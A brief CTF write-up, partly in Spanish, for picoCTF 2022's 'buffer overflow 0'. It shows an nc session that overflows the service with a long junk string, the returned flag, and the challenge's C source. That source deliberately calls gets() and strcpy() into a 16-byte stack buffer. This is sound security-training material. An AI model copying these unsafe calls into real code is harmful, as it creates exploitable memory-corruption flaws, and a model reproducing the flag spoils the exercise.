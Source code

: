 # buffer overflow 0
---
## Objectivo
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/521/vuln). You can view source [here](https://artifacts.picoctf.net/c/521/vuln.c). And connect with it using:`nc saturn.picoctf.net 65355`

---
## Solución

``` sh
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/descargablesCTF/picoCTF2022/ReverseEngineering$ nc saturn.picoctf.net 65355
Input: laksjdflajsdlkfjasljflasdjflaskdjflkajsdlfkjadskljflaskdjfklsjadfklajdsflkjsadlkfj
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/descargablesCTF/picoCTF2022/ReverseEngineering$ cat vuln.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}


```

### `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}

---
## Notas adicionales


---
## Referencias

	